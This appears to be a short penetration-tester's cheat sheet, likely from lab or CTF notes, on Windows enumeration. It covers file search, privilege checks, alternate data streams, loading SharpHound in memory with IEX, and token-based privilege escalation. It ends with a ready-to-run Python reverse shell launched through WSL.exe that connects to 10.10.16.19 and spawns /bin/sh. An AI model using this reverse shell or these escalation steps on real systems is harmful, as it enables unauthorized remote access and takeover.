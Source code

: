 # Windows Enumeration


| Command | Summary |
| --------- | ---------------------------- |
| ```dir <name of file> /s /p``` | Search the file system, recursively for the filename |
| ```whoami /priv``` | Gets the privileges for current user context |
| ```more < name_of_alternate_data_stream.txt``` | Returns the contents of the alternate data stream | 

| Check | Description |
| --------- | ---------------------------- |
| PowerShell IWR vs IEX | Be sure to remember IEX will run the script in memory, useful for loading SharpHound.ps1 remotely |
| What tokens are on machine | If there tokens on the machine, you may be able to switch into that user, and elevate privileges |

## Common Location for WSL.exe
```
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.17134.1_none_686f10b5380a84cf\wsl.exe
```

## Python Reverse Shell with WSL.exe
```
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.17134.1_none_686f10b5380a84cf\wsl.exe python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.19",12345));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```